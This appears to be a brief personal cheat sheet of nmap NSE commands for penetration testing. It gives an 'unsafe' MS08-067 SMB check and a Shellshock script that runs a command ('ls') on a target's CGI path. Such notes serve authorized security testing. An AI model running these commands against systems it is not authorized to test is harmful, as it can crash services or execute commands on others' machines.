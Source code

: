# useful nse scripts

smb-vuln-ms08-067

```text
nmap --script-args=unsafe=1 --script smb-vuln-ms08-067.nse -p 445 <host>
```

\(seems to work 90% of the time\)

http-shellshock

```text
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/{location},cmd=ls <target>
```

broken by default, fix here: [https://www.youtube.com/watch?v=IBlTdguhgfY&t=670s](https://www.youtube.com/watch?v=IBlTdguhgfY&t=670s)

